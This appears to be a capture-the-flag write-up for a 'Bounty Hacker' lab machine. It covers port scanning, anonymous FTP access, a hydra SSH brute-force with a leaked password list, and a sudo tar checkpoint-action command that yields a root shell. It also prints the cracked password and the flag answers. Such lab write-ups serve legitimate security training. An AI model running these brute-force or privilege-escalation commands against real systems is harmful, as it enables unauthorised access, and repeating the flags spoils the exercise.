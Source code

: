 # Task 1 - Living up to the title

### Find open ports on the machine

For this section we can run an nmap scan

sudo nmap -sV -sC -T5 -p- 10.10.33.13 -oN \~/Github/BountyHackerCTF/nmapscan.md

I also ran a gobuster scan to find any additional directories on the webserver.

gobuster dir -u http://10.10.33.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

From our nmap scan we can see that 3 ports are open 21,22,80 for ftp,ssh, and http

### Who wrote the task list?

Since we have the ftp port open we can try to log in as the anonymous user and see if there is anything useful.

ftp anonymous@IP

we are able to connect and we find 2 files on the ftp server, locks.txt and task.txt

we can get these files on our local machine by using get locks.txt and get task.txt

usng cat task.txt we can see that *lin* wrote the list

### What service can you bruteforce with the text file found?

when using cat locks.txt we can see it is a list of passwords, we can use this to bruteforce ssh since that is one of the other ports that is open
Answer: SSH

### What is the users password?

we can try bruteforcing the ssh password for lin with the following command

hydra -t 16 -l lin -P /home/bryce/Github/BountyHackerCTF/locks.txt ssh://IP

then we get the password: RedDr4gonSynd1cat3

### user.txt

After connecting to SSH with the credentials we had found

Username: lin
Password: RedDr4gonSynd1cat3

the user.txt file is present in the Desktop directory: THM{CR1M3_SyNd1C4T3}

### root.txt

Now that we are in the machine under the lin user we can run sudo -l to find what files we are able to run with sudo.

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

we get the above result, going to GTFObins we can see there is a command using tar as sudo to gain privlieged escalation

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

after running the above command we get the root shell

now we are able to navigate to the /root directory and there is a root.txt that has the following contents: THM{80UN7Y_h4cK3r}

We were able to log in to ftp using the anonymous user and use the information gained from that user to crack the password for user "lin". we then used the command sudo -l to see what files can be run as root for lin. We were able to run tar as root and used a command from GTFObins to gain a root shell.
